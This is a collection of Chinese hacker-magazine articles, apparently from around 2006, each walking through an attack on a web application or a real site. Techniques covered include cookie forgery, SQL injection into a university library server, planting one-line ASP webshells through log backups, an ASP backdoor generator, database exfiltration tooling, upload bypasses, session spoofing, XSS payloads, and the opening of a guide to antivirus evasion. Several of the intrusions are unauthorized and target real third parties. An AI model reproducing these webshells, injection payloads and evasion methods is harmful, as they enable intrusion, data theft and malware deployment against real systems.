文章说的这个 Blog 我自己没有用过，但是就从你拿到的 XSS 和 SQL 这两个漏洞的处理地方，可以看出这个 Blog 作者对安全不是很在意，或者说没有真正弄明白。输入只是形式地检查一下单引号，输出一点都不检查和转换，这样的程序漏洞肯定还很多！大家可以从无意中找出漏洞的思路也加以分析。

# COOKIE 欺骗，再战 Jimmy 中文站留言簿忘不掉的伤

从本文你可以学到

- 1. JIMMY 的 COOKIE 欺骗分析和利用
- 2. 另外两处 JIMMY 的跨站漏洞

构造后面而不需要知道用户名和密码：lunjilyb=username=huahua&password=huahua&randomid=12

## 一、COOKIE 欺骗

问题出现在后台的验证文件上，我们可以直接构造 COOKIE，进入后台。思路是，让我们先来看看源文件 Chkmanage.asp，关键几段代码及我的注释如下：

```text
if request.cookies("lunjiyb")("username") <> "" then
    //判断 cookie 中 username 的 KEY 值是否为空
    response.redirect "login.asp"
    //为空则转到 login.asp
end if

if request.cookies("lunjiyb")("password") = "" then
    //判断 cookie 中 password 的 KEY 值是否为空
    response.redirect "login.asp"
    //为空则转到 login.asp
end if

if request.cookies("lunjiyb")("randomid") <> 12 then
    //判断 cookie 中 randomid 的 KEY 值是否为 12
    response.redirect "login.asp"
    //为空则转到 login.asp
end if
```

上面三段代码分别用来判断 cookie 的 username、password 和 randomid 是否为空，如果为空则转到登录页面 login.asp。那我们只需要构造如上语句就可以直接进后台。

## 二、我就跨站，怎么着

重新翻了下代码，发现了两处可以跨站的地方。一处是在参数设置的留言簿名称那里，只要在参数设置里修改成相应的字符即可，如图1、图2。

至于漏洞怎么发生的，其实都是由于过滤不严格，如果不理解的话请看 8 月份发表在《黑客手册》的《注入+跨站，Jimmy 中文留言簿改革之伤》这篇文章，是关于这款留言程序的跨站漏洞分析的。

## 三、实战

用到的工具：老兵叔的 MyBrowser.exe。

先点击 cookies 前面的那个绿色小球，然后在 cookies 里输入：lunjilyb=username=huahua&password=huahua&randomid=12，然后在 Address 栏里输入管理首页地址（是进入后台以后的首页，而不是管理登录的页面），以我本地为例就是 http://localhost/admin-index.asp 这个地址，如图3。

最后按 ENTER 键，看看，是不是直接进后台了？如图4。

“哎，留言簿漏洞这么多，已经算很‘可以’了，呵呵！”

编辑点评：

COOKIE 类的漏洞、跨站漏洞，也就是老生常谈的话题了。对于一个功能相对较少的留言系统来说，存在这样的漏洞真的是不应该。以前常说程序越大，越容易出现漏洞！现在倒好像反过来了，大网站往往漏洞较少或者不易发现；小程序、小网站却漏洞百出。话到头，是不是要归为“自我意识”的问题呢？

阿卿学这有几天，在家里玩得实在无聊，于是想起要到各站，坐在电脑前去搞安全检测。好友小胡看不下去了，说：“你弄的这些小网站是小儿科，真有本事，你就去学别人把北大黑了让我们看看！！”

“好！就冲你这句话！我……我就到那个站上去……”去看后台。我回话时的想法只是装个样子去看后台，没有希望能怎么样。谁知幸运之神特别眷顾我。

我开始进的是北大图书馆的站，网页真的是好美观，如图1所示。

刚开始还真不晓得从何下手，于是就看着各个链接的属性，看看是不是都是 http://www.lib.pku.edu.cn/XXXXXX 的链接。再看，突然眼前一亮：数据库链接的属性居然是 http://162.105.138.23/reference/wuc/lib.asp，如图2。

http://www.lib.pku.edu.cn 和 162.105.138.23 看起来是一个服务器吧？我 ping 了一下，如图3，可以看出不是同一个 IP，看来是不同的服务器。一个是 23，一个是 207，先点开数据库链接再说，就像链接的名字显示的，162.105.138.23 真的是一台资料数据库服务器。

# 西线无战事

页面上有 N 个形如 asp?id= 的链接，看来我是来对了地方，还是很有机会的哦！用了很长时间，终于发现一个链接好像有点问题（注意：链接后面加了个单引号），如图4所示。

手工简单测试了，呵呵，果然是个注入点啊，拿到工具里去跑了，结果有点失望，不是 SA。不过有个 DB_OWNER 就很给面子了，唉，知足常乐嘛。再扫一遍，结果千呼万唤，结果还是挺稳，图5。

看网页文本文档的结果，知道为什么会来到这一步。但是用 IE 打开管理目录时，发现别人对 IP 的来源做了限制，看来是此路不通。不过还是有更好的方法，大家都应该想到吧，呵呵，我当时也是先想到的这种方式。先读取 Web 目录，并把 LOG 备份为每一小页，看看 Web 目录里，就会得到一个小型 WebShell 了，因为这些都是在 DB_OWNER 权限下可以做到的。先用最小权限读到的目录如图6。

至于 LOG 备份的方法，杂志上都讲过 N 次了，我就不用废话了吧。只是我用的是冰冰的 ASP 小马，所以先用 HexDecChar 把超级小马转换成十六进制，再用它代替 `<%execute request("value")%>` 的十六进制内容，在 IE 中依然输入 LOG 备份的那几个小步骤，完成后用户连接即可，成功了，见图7。可爱的 JSP 小马功能更广，可是他们都说，这不是真正意义上的 WebShell。确实，它的界面简陋，功能简单，聪明的你可能都试过了。用它再来上传一款宝贝，如图8！

写到这儿，你可能就想这篇文章也就快完了吧，是吧？后来，大家拿了一个 Shell 给我修改了，你还想把它怎么样，你又能把它怎么样，对吧？我也这么想的，但是当我准备收工的时候，问题又出现在 IE。IE 把浏览的网页又不让打开。一开始我就想这是被杀了，就算是发问吧，信息上传到同一目录中的小马可以访问啊，为什么？不解，还是请编辑来回答这个问题吧！

（编后话：按照你的情况来看，应该是上传的文件中存在特殊字样才出现问题。想想你的小马是用十六进制编码再生成的，而这又不是直接上传的，所以小马就不会这样呢？上传时如果上传的是字符型的 ASP，可能被过滤了，导致你不能访问这个文件。）

我受打击了，在最后一层的时候失败了，我呆呆地望着屏幕。我总不能就到此等死了吧！这可不是本人的作风啊，我又能怎么办呢。不急，不急，不急，不急，不急，不急，不急，不急，先喝杯茶再说吧……

茶没喝完，突然眼前灵光一闪，我怎么把两间顶端 C/S 给忘了呢，它的服务端不也只有一句话么，难道那还是一种文字马？对啦！既然郁闷可以成功，它也应该可以吧。话不多说了，照旧的思路，咱们先把它修改成 `request("#")` 再转换成十六进制，再用 LOG 备份的方法保存到根目录下，用户客户端连接，如图10。果然成功，如图11。

虽然出现了些问题，但是经过测试，里面的功能基本上没有什么影响，甚至那么强大。我到处看了一下，开了 3389、SERV-U 等，想要进行进一步渗透的话，也绝非难事。我想继续做啊，可我有时也怕，怕不怕也明摆着。呵呵。最后通知管理员，闪人！

总结一下：文章没有什么技术含量，之所以写它，只是想说说：注入漏洞无处不在，请网络管理员不要粗心大意！最后，我留下的文字给你的网站：http://blueice7.com/bbs，请 NOHACK 的各位好友和文字的小黑去和我谈论诗词歌赋。这不是打广告，只是谈一下感悟，呵呵！

# 编辑点评

树大就招风，北大著名校友在另一个学校的时期也常参加网络建设，要不是经得起众小黑的检验，呵呵，难免有些让人回味无穷。文章没有明显标注，不同的是要加注。关键时刻，能否“灵光一现”往往决定了渗透的成败，在技术处于瓶颈时的我们，需要改变的不仅仅是思路方式！

# 西线无战事

记得在很久以前，曾经拿到过一个学习网站的 WEBSHELL，在其 USER 表中，竟然有四五万个注册用户，密码还都是明文显示。当时第一个想法就是把这些数据全部保存下来，但其数据库采用的是 SQL 格式，并且连接此表的用户权限又是 db_owner。如何拿到这些数据呢？首先想到的是数据库备份，但不知怎么搞的，在本地还原时出现了错误！后来上传了一个“程序网络工作组”的“ASPAdmin.asp”，此软件有很好的数据库管理功能，但默认情况下，每页显示的是 20 个，四五万的数据量就要点击二三千次才能复制完成。将默认设置更改为 200，结果很长时间才打开一个页面，真是晕死了！无奈之下，只好复制了一些重点数据作罢。

事情虽然过去了，但如何在 db_owner 权限下快速保存指定的数据信息就成了我的一件心事。直到昨天，在 fhod's Blog 上，看到了“netpatch”的一篇文章《新型 ASP 后门》，这件事才算有了一个了结。“netpatch”所介绍的“新型 ASP 木马”代码如下：

```asp
<%
'code by netpatch
dim dbfile,sql
db="netpatch.asp"
dbfile=server.MapPath(db)
set ydb=server.CreateObject("ADOX.Catalog")
ydb.Create "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & dbfile
set ydb=nothing
if err.number=0 then
Response.Write dbfile & " 创建成功<br>"
else
Response.Write " 创建失败，原因: " & err.description
Response.End
end if
Set Conn = Server.CreateObject("ADODB.Connection")
Conn.Open "Provider=Microsoft.Jet.OLEDB.4.0; Data Source=" & dbfile
sql="CREATE TABLE fdata([data] Memo)"
conn.execute(sql)
Set rs = CreateObject("ADODB.RecordSet")
rs.open "fdata", conn, 1, 3
rs.addnew
rs("data")="十挪败合整堀柃启璩V弌弍>
'(注释记得去掉！一句话后门:execute request("n"))
rs.update
%>
```

此段代码利用 ADOX.Catalog 组件，运行后会在当前路径下生成一个含有“一句话木马”的“netpatch.asp”数据库文件。这段代码给我的惊喜不在于又出现了一个新的 ASP 木马生成方式，而是在 WEBSHELL 条件下，竟然可以创建数据库文件。如果我在新建的库中插入的不是一句话木马，而是 SQL 数据库某个表中的数据，那这些数据就保存在新建的数据库中了。下载新建的数据库，SQL 数据库的信息就到手了！经过一番测试，终于写成了一个“数据库复制工具”，和我有同样困惑的朋友不妨来看一下：

**第一步**，先选择欲复制的数据库类型，这里我选择的是 SQL 数据库。然后在“欲复制的字段数”中输入数字，因为我们所要的只是部分数据信息，所以在复制之前要首先用 ASPAdmin 等木马软件打开目标数据库，掌握所要复制的字段数。

**第二步**，在“创建的 MDB 数据库名称”输入一个文件名（注意：要带 MDB 扩展名），这个就是用来保存 SQL 数据信息的数据库。接下来输入当前 SQL 数据库的连接用户、密码等一些信息，这些信息可以从目标网站的 conn.asp（数据库连接文件）中得到；其中的“SQL 数据库地址”填“(local)”即可。紧随 SQL 数据库信息的是几个相同的 TXT 输入框，这些输入框的数量是根据第一步所输入的数字而定的，在每个“欲复制的字段名称”后面都有一个“字段类型”选项，这里有“文本”“备注”“数字”及“日期”等一些常用类型，如果不了解目标字段的类型，最好用默认的“文本”类型！输入完成后的界面如图1。

**第三步**，点击第二步中的“复制”按钮后，如果没有输入或其他错误，那么所显示的界面就如图2一样。不仅列出新创建数据库的物理地址，还提供了一个“下载”链接，点此后，所创建的 MDB 数据库就下载下来了，然后用相关工具打开，如图3。瞧，这个数据表是不是很简洁！

## 数据也复制

寂寞的刺猬 [L.S.T]

除了复制 SQL 的数据信息外，此工具还可以复制 ACCESS 数据库中的信息，步骤是一样的，所不同的是在第二步中只需输入 ACCESS 数据库的名称及所要复制的表名即可。如果目标数据库不在当前路径下，可以使用“../”来跳转目录。有的朋友可能会说，即使 ACCESS 数据库加了防下载，只要更改扩展名为 MDB 或 RAA，不就可以下载了。当然这种建议是对的，但有些网站中的 ACCESS 数据库体积达到几十甚至上百兆，其中包含了大量的无用数据，而我们所要的只是部分数据。为了几十 K 的数据下载一个百十兆的文件，总感觉有些得不偿失！

OK，关于在 db_owner 权限下保存数据库信息的方法就介绍到这儿，文中不当之处，还请各位朋友不吝赐教。当然，如果你有其他的方法，也希望共享出来，大家共同学习一下！

> （作者编写的数据库字段复制工具收录在光盘中）

# 编辑点评

一篇文章若是能解决一个实在的问题就是一篇好文章。这篇文章，作者通过 ADOX.Catalog 的应用解决了一个长期困扰我们的问题：取数据。小编就曾见到有人一页一页地复制、粘贴，也真够耐心的，呵呵！我个人认为，这篇文章很有实用价值！

# MOP 联盟信息泄露漏洞

光芒果 [I.S.T]

- 从本文你可以学到：
- 1、MOP 联盟敏感信息泄露的漏洞

MOP 是国内最大的互联网 BBS 社区，站做大了肯定会往更多元化的方向发展，所以现在的 MOP 除了 BBS 社区，还做了网络电视、BLOG 等常见服务，甚至还做了广告联盟。那么从个人站点做起的 MOP 真的安全吗？这不，今天就在群上收到消息说 MOP 联盟有泄露客户敏感信息的漏洞，于是我就去看了看，这不看不知道，一看还真吓一跳啊！

打开 MOP 联盟的漏洞页面 http://union.mop.com/inc，整个目录就列在了我们面前，如图 1，又是典型的列目录漏洞。


随便翻看了几个 TXT 文件，果然，群里的朋友所说的用户敏感信息——E-mail 就展现在了我们的眼前，如图 2。现在我们可以知道为什么我们邮箱里会有那么多的垃圾邮件了吧。就算我们平时注册一些论坛用假邮箱，可一个广告联盟我们可用真邮箱注册吧，这可是关系到 RMB 的啊！

已知的漏洞就到这里了，但我凭个人的直觉感觉漏洞不只是泄露了电子邮箱地址那么简单。不说有没有什么漏洞可以直接控制服务器或者拿个 SHELL，至少应该可以从它的服务器上找出点什么吧。果然，我看到了一个 IDCARD 的文件夹，点进去看看，全是图片文件，似乎没什么利用价值，但随便打开一个图片一看，天啊！居然是客户用来验证个人身份的身份证扫描件，如图 3！这么重要的信息居然就这么轻易被别人得到了，如果有人利用这些证件到淘宝等注册后再进行恶意交易的话，后果将不堪设想啊！

看到这里就立即通知了 MOP 的客服，因为不是我首先发现的漏洞，所以我怕很多敏感文件或路径已经有其他人知道了，所以还特别提醒了要注意设置权限并改变原来的文件结构。很快客服就说已经叫技术人员修补好了，还奖励了我 3000MP。

这时候我又去看了看，结果所谓的修补好就只是在可以列目录的地方加上了一个空白的 index 文件，原有的文件结构和权限设置都没有改变，有些 2 级目录还是一样可以列出来！但是当我再次联系客服的时候，客服的 QQ 已经下线了。

这个漏洞并没有什么技术含量，但 MOP 的广告联盟居然有这样的漏洞，我感到很震惊！再联想以前我发现的网易 WAP 博客和网易免费邮箱里的个人日记功能，不也同样存在因为服务器权限设置不当导致信息泄露甚至被人入侵的事么，我不禁担忧：我们放在网上的资料能有安全保障吗？

> 编辑点评：MOP 联盟是什么来头我不清楚，但是就从他的技术人员修复漏洞的方式来看，这个站的漏洞远非已发现的这些。在态度决定一切的今天，没有一个好态度是做不成什么大事的！没吃过亏的人你怎么劝都没用，只有哪天真的吃亏了，他才能记得，才会去改进！

# 一个注入点引起的“入侵”

樱花浪子 [I.S.T]

- 从本文你可以学到：
- 1、关于 session 的简单欺骗
- 2、简单的入侵思路

无意中得到一个注入点，练了下手动注入后猜到了管理员的用户名和密码，没想到的是 MD5 的密码还挺强悍，去 MD5 在线破解的网站没破出来，这更引起我入侵它的冲动，我一定要放个 WebShell 进去。看首页还有个论坛，如图 1，点击却打不开，晕之。

再换了个注入点以后还是没能得到明文密码，还好我会“拐弯”，直接拿明小子旁注，果然是一台虚拟机，上面站点还真不少，直接批量测试注入点，很快就发现不少注入点，直接猜表名密码（过程在这就不说了，以免被小编们说我骗稿费^_^）。找到一个密码是明文的，直接进后台，没想到后台如此的简单，找了个文章管理，里面有个上传的地方，选了一个 ASP 马儿试一下，告诉我不行，如图 2。


把后缀换成 cer、cdx、hdx 都不行，看下面有个编辑器管理，点了一下，原来是 eWebEditor 呀！关于利用这个得 WebShell 的好像《黑手》以前已经说过了。如果……赶紧试下默认密码，哈哈，进来了。既然运气这么好，那就继续吧，选择样式管理，在选择列表下底下的一个样式的“设置”，直接在图片类型添加一个 cer 格式的，如图 3。

提交后，点预览，直接在里面传个改了扩展名为 cer 的加密的 ASP 马儿，直接给出了路径，访问一下，成功得到了同一主机下另外一个站点的 WebShell，如图 4。

这里有的朋友可能添加完以后也上传不了 .cer 的文件，很可能是站长自己修改代码了，我们可以试着添加 aaspsp 格式，再传 asp 文件，具体请参考以前的杂志。进去之后发现 wscript.shell 可用，可惜在执行命令的时候却不行，还好没有对目录设置得很 BT。可以访问其他用户的目录。找到 www.***1.com 目录后，本想写个 WebShell 进去就搞定了呢。可惜残酷的现实告诉我没有写的权限，又遇见了困难，在尝试 N 个方法提权也没有成功，可能是自己的水平太菜了，呵呵。

还好能把目标网站的文件下回来研究，因为前面看到目标网站本身就有注入点，我猜想他的程序也不怎么样。看到目标网站有个 BBS 目录，晕了！不是该页无法显示吗？怎么还有目录，先进去看一下，如图 5。

原来是有文件的，只是好像没有首页文件，访问其他页面还能进去，是个不知名的小论坛，有个上传的地方，传一个 ASP 马儿试试，提示不对。换了个改成 JPG 后缀的 ASP 马儿算是成功了，可惜改不过来扩展名有什么用呢，后来抓包用 NC 上传也没有成功。算了，把目标网站的源文件全下回来慢慢研究吧。

第二天上网继续研究提权和读那些源文件，都是 ASP 的。当看到 Manage_backup.asp（这个文件是备份数据库的）文件里面有这样一段关键代码：

```asp
dim DvaspDataName,Dvasp,DatanameNew,mdb,fs,dbpath,fso,Engine,bkfolder,bkdbname,fso1
dim Bkmdb,Ts1,Backupname
if session("AdminName")="" then
'如果 session("AdminName") 值为空就会错误
response.write "<br><p align=center>操作错误</p>"
response.end
end if

DvaspDataName=request("DvaspDataName")
'取得客户端的 DvaspDataName 值，并指给 DvaspDataName 变量
DvaspDataNameNew=request("DvaspDataNameNew")
Action=trim(request("Action"))
代码省略...
```

从代码可以看出这里的 session 验证只是判断 AdminName 的值是否为空，不空就给了数据库备份的权限，很不严谨哦！想想这里是虚拟主机，并不是独立的服务器；那我们能不能在 session 上做点手脚呢？有的朋友可能已经想到了，对，我们可以利用已经得到的站（www.***2.com）的 WebShell 分给我们的一个 session 值，然后去 www.***1.com 就能通过 session 的验证了。思路有了，在 WebShell 写如下一个 1.asp 文件，代码如下：

```asp
<%
session("AdminName")="notnull"
%>
```

这样就构成 session 的值非空成立，这样我们就可以调用数据库备份的功能了，也就是 session 欺骗。

先用 www.***2.com 访问这个 1.asp，然后再用这个浏览器去访问 www.***1.com/admin/Manage_backup.asp 文件。怎么样，备份页面出来了吧，如图 6。

这里注意一定要用同一个窗口，否则我们会话值就会结束掉，这个大家都会了吧！刚才不是传了个 JPG 的马儿吗？正好填上，最后备份一下，提示成功，最后访问一下，成功了，如图 7 所示。

事后 E-Mail 通知了管理员，当然我们入侵只是为了练技术，并不是搞破坏的。在本次测试中遇到了几个小曲折，还好都闯过去了。其实在入侵中，三分是技术，六分是思路，还有一分……当然是运气了。呵呵，我的许多思路都是在《黑手》上学到的，当然这并不是做广告，有问题大家去论坛交流。

（文章中用到的 shell.asp 在光盘中有收录）


# 编辑点评

文章的闪光点是对验证不严的 session 欺骗，其他的就不多说了。

# 跨站、注入击垮 LBlog

曹云飞

LBlog 是由丹麦程序员写的一套 ASP Blog 系统，功能不是很强大，但是非常的实用，目前是站长资讯网所推荐的软件之一，国内外拥有大量的用户，可以利用 Powered By LBlog 来查找这个系统。在我读完这个程序后发现了很多安全问题，下面就让我细细讲来。

## 一、跨站

这个系统由于没有对参数进行有效的过滤，导致多处地方出现了跨站漏洞，这里拿官方网站来测试。首先看看博客上的评论，是由文件 addComment.asp 负责处理的，代码如下：

```asp
<%
strNoname = Request.Form("name") '获得表单的数据
strTekst = Request.Form("comment")
strTekst = Replace(strTekst, "'", "''")
BadWordArr = Split(BadWords, "|")
BadWord = ""
For BadWordNo = 0 To UBound(BadWordArr)
    If instr(strTekst, BadWordArr(BadWordNo)) > 0 Then
        BadWord = BadWordArr(BadWordNo) '过滤一些字符
    End If
Next
If BadWord <> "" Then
    Response.write ("<b>" & BadWord & "</b>" & noBadword & "'")
Else
    strSQL = "INSERT INTO comments (name, mail, url, comment, [date], ip, blogID, catID) values ('" & strNoname & "', '" & Request.Form("mail") & "', '" & Request.Form("url") & "', '" & strTekst & "', '" & Request.Form("date") & "', '" & Request.Form("ip") & "', '" & Request.Form("blogID") & "', '" & Request.Form("catID") & "')"
    objConn.Execute(strSQL) '数据没有进行任何过滤就插入到数据库中，漏洞出现
```

这里只是评论的内容对参数进行过滤，其他的如评论标题都是直接进行数据库操作的。所以在标题那里就可以进行跨站了，如图 1 所示。再来看看客户端的代码：

```html
<input name="date" type="hidden" value="09-08-2006 03:34:25">
<input name="ip" type="hidden" value="220.169.45.37">
type=hidden 的意思就是让这个输入框隐藏，让我们看不见
<input name="blogID" type="hidden" value="40">
<input name="catID" type="hidden" value="11">
<input type="submit" name="Submit" value="Submit" class="searchSubmit" onclick="return go();"></td>
```


这些插入的一些如 IP 的参数都是用 type=hidden 的方式提交的，所以这里还存在一种隐藏式的跨站方法。就算程序员把其他地方的参数过滤了，这里同样可以用来跨站攻击。先用 WsockExpert 抓取评论时提交的数据，其内容如下：

> Referer: http://www.lblog.dk/comments.asp?id=32  
> Accept-Language: zh-cn  
> Content-Type: application/x-www-form-urlencoded  
> Accept-Encoding: gzip, deflate  
> User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; Maxthon; (R1 1.5); .NET CLR 1.1.4322)  
> Host: www.lblog.dk  
> Content-Length: 188  
> Connection: Keep-Alive  
> Cache-Control: no-cache  
> Cookie: ASPSESSIONIDAQRQQSAB=FLFPEDJAMAGLDHJHOMNJAEBK; ASPSESSIONIDAQRQQSAB=DDILMNJAIMIHINOJGIFALGEK  
> name=%26%2322763%3B%26%2323282%3B%26%2322827%3B&mail=sfda@sina.com&url=http%3A%2F%2Fwww.sina.com&comment=dsff&date=09-08-2006+04%3A05%3A46&ip=220.169.45.37&blogID=32&catID=12&Submit=Submit

这里我们可以把 IP 地址改为 `<script>alert("zengyunhao")</script>`，然后用 NC 把数据提交上去，这样同样得到了跨站的效果，如图 2 所示，这又是一个跨站漏洞。

接下来的跨站漏洞都是在后台，下面就把存在跨站漏洞的文件一一列举出来：

- 1. editPost.asp 文件：

```asp
<%
rsPost = "UPDATE weblog SET [date] = '" & Request.Form("date") & "', headline = '" & Request.Form("headline") & "', weblog = '" & Request.Form("FCKeditor1") & "' WHERE id = " & Request.Form("id") & ""
objConn.Execute(rsPost) '没有对参数过滤就对数据库更新
```

- 2. functions.asp 文件：

```asp
strSQL = "INSERT INTO kommentar (blogID, dato, kommentar, forfatter, mail, url, ip) values ('" & Request.Form("blogID") & "', '" & Request.Form("dato") & "', '" & strTxt & "', '" & Request.Form("forfatter") & "', '" & Request.Form("mail") & "', '" & Request.Form("url") & "', '" & Request.Form("ip") & "')" '没有对参数过滤就对数据库进行插入操作
```

- 3. calendar.asp 文件：

```asp
<%
Session.LCID = 1030
rsNewcal = "INSERT INTO calendar (c_date, content) values ('" & Request.Form("c_date") & "', '" & Request.Form("content") & "')" '没有对参数过滤就对数据库进行插入操作
objConn.Execute(rsNewcal)
```

- 4. newPost.asp 文件：

```asp
rsPost = "INSERT INTO weblog ([date], headline, cat_id, weblog) values ('" & Request.Form("date") & "', '" & Request.Form("headline") & "', '" & Request.Form("category") & "', '" & strTekst & "')" '没有对参数过滤就对数据库进行插入操作
objConn.Execute(rsPost)
```

上面的语句都是没有对后台输入的数据进行任何的过滤，然后就插入到了数据库当中去。可能是程序员太相信这个后台吧，这里用来挂马，拿 calendar.asp 来测试，输入代码：`<iframe frameborder=0 width=300 height=300 scrolling=no src=http://www.baidu.com></iframe>`，如图 3 所示。


## 二、注入

这个系统同样对 SELECT 中提交的数据没有进行任何的过滤，注入漏洞存在得非常明显。还有一个就是没有对数据进行加密保护，导致通过注入得出的密码是明文的。先看 comments.asp 文件的代码：

```asp
<%
  Set rsCat = ObjConn.Execute("SELECT * FROM category WHERE cat_id = " & rsWeblog("cat_id") & "") '没有过滤参数就进行数据库连接查询操作
%>
........................省略代码
<%
  Set rsComments = ObjConn.Execute("SELECT * FROM comments WHERE blogID = " & Request.QueryString("id") & " ORDER BY date") '没有过滤参数就进行数据库连接查询操作
%>
```

得到表单的数据后就进行连接查询操作，而且这个文件可以在 URL 地址栏内直接注入的，如图 4 所示，我们可以轻易地得到了官方的密码。

editPost.asp 文件也同样存在这样的漏洞，代码：

```asp
<%
Dim rsCat
Set rsCat = ObjConn.Execute("SELECT * FROM category WHERE cat_id = " & Request.QueryString("cat_id") & "") '没有过滤参数就进行数据库连接查询操作
Dim rsE
Set rsE = ObjConn.Execute("SELECT * FROM weblog WHERE id = " & Request.QueryString("id") & "")
%>
```

这个 Blog 还提供了一个搜索功能，不过这个搜索功能也是同样存在漏洞，代码为：

```asp
<%
Dim strSearch
strSearch = Request.QueryString("search")
If strSearch = "" Then
  Response.Write("'" & searchStringEmpty & "'")
Else
  Dim rsSearch
  Set rsSearch = ObjConn.Execute("SELECT * FROM weblog WHERE headline LIKE '%" & strSearch & "%' OR weblog LIKE '%" & strSearch & "%' ORDER BY ID DESC")
%>
```

```asp
If rsSearch.EOF Then '没有过滤参数就进行数据库连接查询操作
  Response.Write("<h3>" & strSearch & " " & searchString_false & "</h3>")
Else %>
<%
  Response.Write("<h3>" & strSearch & "</h3>")
  While NOT rsSearch.EOF
    Set rsComments = objConn.Execute("SELECT Count(comments.blogID) AS antal FROM comments WHERE comments.blogID = " & rsSearch("id") & ";")
    Set rsCategory = ObjConn.Execute("SELECT * FROM category WHERE cat_id = " & rsSearch("cat_id") & "") '没有过滤参数就进行数据库连接查询操作
%>
```

要搜索的字符是直接提交给的，没有经过过滤，这里可以用如这样的字符串来突破，如 `and'%' and 1=1 and '%' and 1=2 and '%'` 等等。提交之后语句就变成了 `SELECT * FROM weblog WHERE headline LIKE '%and '%' and 1=1 and '%'%'`。就这样把数据 `and 1=1` 改为其他的注入代码就可以得到管理员的密码了。

## 三、后记

分析这套程序，总的来说是非常简单的。首先没有对任何数据进行过滤，其实脚本漏洞本质上来说就是对参数过滤不严格导致的，因此如果把所有执行数据库操作的参数都过滤得很干净，那安全性就非常高了。其次就是后台管理员的密码没有用加密系统进行加密，注入后直接得到明文。这套 Blog 比较简单，不支持任何上传功能，数据库也是用 ACCESS，所以没有得到 WebShell，不过用它来挂马也是不错的选择哦。

[作者做的注入、跨站击垮 LBlog 动画已收录在本期光盘]


# 夜航船

> 黑梦语：  
> 《作为一名 hacker，必须使用多种操作系统才是真功夫。但是面对众多的操作系统究竟应该如何选择？如何让我们用最短的时间获得我们想要的知识和效果？本期夜航船将为大家介绍近来最火红的 Ubuntu Linux。Ubuntu Linux 在桌面 Linux 领域的使用率已经达到了 25% 以上。（Fedora Core 为 7%）》

# Ubuntu Linux

Ubuntu is a Linux distribution offering an operating system predominantly targeted at desktop computers. Based on Debian GNU/Linux, Ubuntu concentrates on usability, freedom from restriction of use, regular releases, and ease of installation.  
Ubuntu 是一个以桌面应用为主的 Linux 操作系统，是基于 Debian 的发行版。Ubuntu 专注于易用性，有规律地发布新版本，有着简易的安装过程。

The name of the distribution comes from the Zulu and Xhosa word meaning "humanity to others". Ubuntu's slogan is "Linux for human beings".  
其名称来自南非的“Ubuntu”概念，大致为“乐于分享”。Ubuntu 的口号是“人性化的 Linux 发行版”。

Ubuntu's first release on October 20, 2004 began as a temporary fork of Debian GNU/Linux, with the aim of drawing from Debian's code regularly in order to allow for a new version of Ubuntu to be released every six months. In contrast with some other general-purpose forks of Debian, such as Xandros, Linspire, and Libranet, Canonical have stayed close to Debian's philosophy with Ubuntu and use free software most of the time rather than relying on closed-source add-ons as part of their business model.  
Ubuntu 第一个版本于 2004 年 10 月 20 日发布，并以 Debian 为开发蓝本。但其以每六个月发布一次新版本为目标，使得人们得以更频繁地获取新软件。而其开发目的是为了使个人电脑变得简单易用，但亦有提供服务器版本。Ubuntu 的每个新版本均会包含最新版本的 GNOME 桌面环境，并且会在 GNOME 发布新版本后一个月内发行。与以往基于 Debian 的 Linux 发行版，如 MEPIS、Xandros、Linspire、Progeny 与 Libranet 等比较起来，Ubuntu 更接近 Debian 的开发理念。因为其主要使用自由与开源软件，而其他的发行版则会附带很多封闭的软件。

The Ubuntu page on DistroWatch has been the most frequently accessed of a comprehensive list of Linux distributions for more than a year. Ubuntu was awarded the Reader' Award for best Linux distribution at the 2005 LinuxWorld Conference and Expo in London. It has been favourably reviewed in online and print publications. Many reviewers of Ubuntu point out a main part of Ubuntu's success is the fact that it has a very large community.  
一年多以来，Distrowatch.com 上的 Ubuntu 介绍页是访问率最高的页面。而在 2005 年于伦敦举行的 Linux 世界会议及博览会（LinuxWorld Conference and Expo）上，Ubuntu 被嘉奖为读者所选的最佳 Linux 发行版。其亦经常被网络与纸面出版媒体评审。很多评审者认为 Ubuntu 的主要成功原因在于其拥有一个庞大的社群，让使用者能够轻易获得支持。

> 免杀处理是喜欢玩木马朋友的基本能力，文章只是对最基本的方法做了一些阐述，覆盖面并不是很大，所用的方法也是比较常见的方法，好在作者讲述得还比较清楚，还附带了演示动画，只要大家明白免杀处理的原理，再深入进去就不难了！

- 从本文你可以学到：
- 杀毒软件的运行原理
- 免杀处理的一般流程
- 基本的动手修改能力

为了让自己的马儿更加“强壮”，一款好的马甲是必不可少的。可在网络高速发展的今天，越来越多的公用马甲（俗称为壳）被日益更新的脱壳者（杀毒软件）所识破，令菜鸟们无计可施。可惜自己又不会写技术含量太高的壳，怎么办？那么，我们只好来修改一下木马程序吧！什么！太复杂了？不，让我们摒弃那些饶舌的理论，就从零开始吧！

## 一、原理篇

俗话说知己知彼，百战不殆，首先让我们来了解一下杀毒软件都有哪些招式！

## 1. 代码特征值扫描技术

在 99% 杀毒软件的病毒引擎中都要运用的一项技术。计算机病毒也是程序，但它与一般程序的代码有区别的字符串就称之为特征值。它是由病毒任意代码中划出不大于 64 字节（也可以大于或小于这个范围）的代码来组成的（要注意了：一般病毒程序入口点的前 20-40 字节的代码最有可能为特征值）。只要程序里头包含了上述的特征值码，那么程序就会被列为病毒（这也就是好多杀毒软件出现误报的原因了），所以是否拥有一套完备的又准确无误的病毒特征值库，是衡量一款杀毒软件好坏的重要标准。否则，我们每天都会过着“人心惶惶”的日子了。一般为了精确性，往往会选文件中的几段代码作为病毒的特征值。不过，此方法最大的局限性就是新病毒的特征值如果未输入进特征库中，也就不可能被查杀出来。所以，这是一个治标不治本的方法（利用此局限性来作免杀的思路由此而出）。

## 2. 字符串特征值扫描技术

目前在杀毒软件的监控系统中很常见的一种方法。与 1 中所述不同的是，该方法是用正在运行的程序或是 DLL 文件中某段字符串来作为特征值（至少目前是这样），进行识别。（注意是字符串，而不是程序中的任意代码，所以查杀出的范围以及速度都要比引擎查杀要快。）正是特征值的位置不同，所以免杀的方法也不同了。

## 3. 启发式行为检测技术

（其实这是两种不同的方法，但鉴于方法的思路是差不多的，所以就放在一起说。）

